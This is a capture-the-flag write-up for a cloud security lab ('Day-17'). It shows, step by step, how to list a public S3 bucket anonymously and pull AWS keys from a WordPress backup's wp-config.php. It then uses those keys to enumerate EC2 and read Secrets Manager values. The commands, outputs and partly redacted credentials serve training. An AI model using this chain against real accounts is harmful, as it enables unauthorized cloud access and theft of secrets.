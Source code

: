 ## TASK-1  What is the name of the S3 Bucket used to host the HR Website announcement? 

There is the image given try to view the image location and there you will see the bucket name<br>
```https://s3.amazonaws.com/images.REDACTED.com/flyer.png```

## TASK-2 What is the message left in the flag.txt object from that bucket?

Try to change the link from <b>flyer.png</b> to <b>flag.txt</b> and there you have the contents of the file.<br>
```It's easy to get REDACTED when you leave it so easy to find!```

## TASK-3 What other file in that bucket looks interesting to you?

Using the aws-cli try to list the contents of the bucket using the command
```aws s3 ls s3://images.bestfestivalcompany.com/ --no-sign-request```. ```wp-backup.zip``` file seems to be intresting.

## TASK-4 What is the AWS Access Key ID in that file?

Unzip the zip file and cat the contents of wp-config.php and there you have the ACCESS ID KEY in the buttom.
```bash
/* Add any custom values between this line and the "stop editing" line. */
define('S3_UPLOADS_BUCKET', 'images.bestfestivalcompany.com');
define('S3_UPLOADS_KEY', 'AKIAQIREDACTEDXFYAOI');
define('S3_UPLOADS_SECRET', 'Y+2fQBoJ+X9N0GzREDACTED/KcYxkS1Qmc');
define('S3_UPLOADS_REGION', 'us-east-1');

```

## TASK-5 What is the AWS Account ID that access-key works for?

Run this command ```aws sts get-access-key-info --access-key-id AKIAQI52OJVCPZXFYAOI --profile test```. you will create a test profile using the access key
and get the account id.
```bash
{
    "Account": "019REDACTED6"
}
```

## TASK-6 What is the Username for that access-key?

Run this command ```aws sts get-caller-identity --profile test``` and you will get the username for that access key.
```bash
{
    "UserId": "REDACTED",
    "Account": "REDACTED",
    "Arn": "arn:aws:iam::019181489476:user/REDACTED@bfc.com"
}
```

## TASK-7 There is an EC2 Instance in this account. Under the TAGs, what is the Name of the instance?

Run this command ```aws ec2 describe-instances --output text --profile test``` and under the tags you will see the name of the EC2-Instance.
```bash
SNIP!
TAGS    aws:cloudformation:logical-id   Instance
TAGS    created_by
TAGS    aws:cloudformation:stack-name   REDACTED
TAGS    Name    REDACTED
SNIP!
```

## TASK-8 What is the database password stored in Secrets Manager?

Run these commands to get all the secrets of the secrets manager.
```
aws secretsmanager list-secrets --profile test
aws secretsmanager get-secret-value --secret-id "NAME_VALUE_OF_ABOVE_CMD" --profile test
>> OUTPUT
{
    "ARN": "arn:aws:secretsmanager:us-east-1:019181489476:secret:REDACTED-8AkWYF",
    "Name": "REDACTED",
    "VersionId": "70630b3c-4fbe-4a24-885d-18445bd808b1",
    "SecretString": "The Secret you're looking for is not in this **REGION**. Santa wants to have low latency to his databases. Look closer to where he lives.",
    "VersionStages": [
        "AWSCURRENT"
    ],
    "CreatedDate": "2021-11-24T07:14:07.718000+05:45"
    
```
Try to set the region to other regions and after few attemps you will end up with ```eu-north-1``` So the final command is
```
aws secretsmanager get-secret-value --secret-id "NAME_VALUE" --profile test --region "eu-north-1"
```

<h3><b>That's it for Day-17. Happy Hacking!</h3></b>
